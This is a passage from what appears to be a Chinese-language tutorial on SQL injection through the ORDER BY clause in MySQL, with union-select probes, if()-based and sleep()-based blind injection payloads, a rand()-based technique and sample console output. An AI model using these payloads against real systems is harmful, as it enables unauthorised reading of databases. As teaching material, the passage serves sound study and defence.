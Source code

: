```
 select * from users
```
![](https://ae01.alicdn.com/kf/Hbf916d7115744ff2aa40779d50203ae6o.jpg)

```
select * from users union select 1,2,3 order by 3
```
![](https://ae01.alicdn.com/kf/H92f72960280148b5969f9c7ed062ca158.jpg)

```
select * from users union select 1,2,'admin' order by 3
```
![](https://ae01.alicdn.com/kf/Hf8b6f976db9044a994034dd6eb80a16b9.jpg)

```
select * from users union select 1,2,'adminaa' order by 3
```
![](https://ae01.alicdn.com/kf/H89eb2047bb3b49cabdeb83b17b33515fq.jpg)

### if盲注

- 需要知道列名

```
order by if(1=1,id,username)
```

- 不需要知道列名

```
order by if(表达式,1,(select id from information_schema.tables))
```
==如果表达式为false时，sql语句会报ERROR 1242 (21000): Subquery returns more than 1 row的错误，导致查询内容为空，如果表达式为true是，则会返回正常的页面。==

### 基于时间的盲注

```
order by if(1=1,1,sleep(1))
```

### 基于rand()的盲注

```
select * from ha order by rand(true)
```
mysql> select * from ha order by rand(true);
+----+------+
| id | name |
+----+------+
|  9 | NULL |
|  6 | NULL |
|  5 | NULL |
|  1 | dss  |
|  0 | dasd |
+----+------+
mysql> select * from ha order by rand(false);
+----+------+
| id | name |
+----+------+
|  1 | dss  |